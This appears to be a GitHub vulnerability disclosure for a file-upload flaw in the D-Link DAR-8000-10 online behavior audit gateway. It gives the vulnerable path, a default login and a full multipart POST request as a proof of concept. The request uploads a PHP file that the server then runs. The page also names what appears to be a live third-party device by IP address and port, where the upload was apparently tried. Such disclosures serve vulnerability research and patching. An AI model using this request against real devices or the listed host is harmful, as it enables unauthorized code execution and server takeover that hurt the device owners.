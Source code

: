 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=405fd5b19bc87f221050608ff53b6fb9
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/dd44ef4c-f4ed-40f2-8af6-3cee38efcb6a">

https://59.60.19.174:8443/home/1.php 

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/532db13e-c9f3-41f1-ad45-d48f25c797af">

